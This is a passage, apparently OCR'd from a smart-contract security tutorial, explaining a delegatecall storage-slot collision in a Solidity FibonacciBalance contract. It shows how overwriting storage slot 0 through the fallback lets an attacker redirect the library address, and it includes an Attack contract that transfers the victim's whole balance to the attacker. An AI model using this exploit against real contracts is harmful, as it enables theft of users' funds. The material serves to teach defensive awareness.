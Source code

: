     // constructor - loads the contract with ether  
    constructor\(address \_fibonacciLibrary\) public payable {  
        fibonacciLibrary = \_fibonacciLibrary;  
    }

    function withdraw\(\) {  
        withdrawalCounter += 1;  
        // calculate the Fibonacci number for the current withdrawal user-  
        // this sets calculatedFibNumber  
        require\(fibonacciLibrary.delegatecall\(fibSig, withdrawalCounter\)\);  
        msg.sender.transfer\(calculatedFibNumber \* 1 ether\);  
    }

    // allow users to call Fibonacci library functions  
    function\(\) public {  
        require\(fibonacciLibrary.delegatecall\(msg.data\)\);  
    }  
}

Storage slot\[0\] now corresponds to the fibonacciLibrary address, and slot\[1\] corresponds to calculatedFibNumber. It is in this incorrect mapping that the vulnerability occurs.  
recall that the start variable in the FibonacciLib contract is located in storage slot\[0\], which is the fibonacciLibrary address in the current contract. This means that the function fibonacci will give an unexpected result. This is because it references start \(slot\[0\]\), which in the current calling context is the fibonacciLibrary address \(which will often be quite large, when interpreted as a uint\). Thus it is likely that the withdraw function will revert, as it will not contain uint\(fibonacciLibrary\) amount of ether, which is what calculatedFibNumber will return.

Even worse, the FibonacciBalance contract allows users to call all of the fibonacciLibrary functions via the fallback function at line 26. As we discussed earlier, this includes the setStart function. We discussed that this function allows anyone to modify or set storage slot\[0\]. In this case, storage slot\[0\] is the fibonacciLibrary address. Therefore, an attacker could create a malicious contract, convert the address to a uint \(this can be done in Python easily using int\('&lt;address&gt;',16\)\), and then call setStart\(&lt;attack\_contract\_address\_as\_uint&gt;\). This will change fibonacciLibrary to the address of the attack contract.

contract Attack {  
    uint storageSlot0; // corresponds to fibonacciLibrary  
    uint storageSlot1; // corresponds to calculatedFibNumber

    // fallback - this will run if a specified function is not found  
    function\(\) public {  
        storageSlot1 = 0; // we set calculatedFibNumber to 0, so if withdraw  
        // is called we don't send out any ether  
        &lt;attacker\_address&gt;.transfer\(this.balance\); // we take all the ether  
    }  
 }

### Resources

[https://solidity.readthedocs.io/en/latest/contracts.html?highlight=library\#libraries](https://solidity.readthedocs.io/en/latest/contracts.html?highlight=library#libraries)  
[https://solidity.readthedocs.io/en/latest/miscellaneous.html\#layout-of-state-variables-in-storage](https://solidity.readthedocs.io/en/latest/miscellaneous.html#layout-of-state-variables-in-storage)
